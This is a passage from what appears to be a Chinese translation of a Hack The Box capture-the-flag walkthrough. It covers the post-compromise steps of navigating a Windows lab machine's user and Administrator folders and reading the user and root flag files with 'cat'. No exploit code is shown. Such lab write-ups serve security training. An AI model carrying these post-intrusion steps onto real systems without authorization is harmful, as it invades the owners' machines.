

我回到**用户**目录



然后移动到 **babis** 目录



从那里，我转到**桌面**目录



我们找到了 **user.txt.txt** 文件！为了读取文件的内容，我使用了以下命令

```
cat user.txt.txt
```

现在我们有了用户标志，让我们找到根标志！

## **步骤 7 -寻找 root.txt 标志**


回到 **C:\** 导航到**管理员**文件夹，然后是**桌面**文件夹。我使用 **ls** 来列出**桌面**文件夹下的所有文件



我们找到了 **root.txt.txt** 文件！

为了读取文件的内容，我使用了以下命令

```
cat root.txt.txt
```

恭喜你。你找到了两面旗子！

* * *

请随时评论、提问或与朋友分享:)

你可以在这里看到更多我的文章

你可以在推特上关注我，也可以在 T2 的 LinkedIn 上关注我

还有别忘了# ****GetSecure**** ，#****be secure****&#****stay secure****！

* * *

**其他黑盒子文章**

*   [保持冷静，黑掉瘸子](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-lame/)
*   [保持冷静，黑掉盒子——遗产](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-legacy/)
*   [保持冷静，黑盒子——哔](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-beep/)

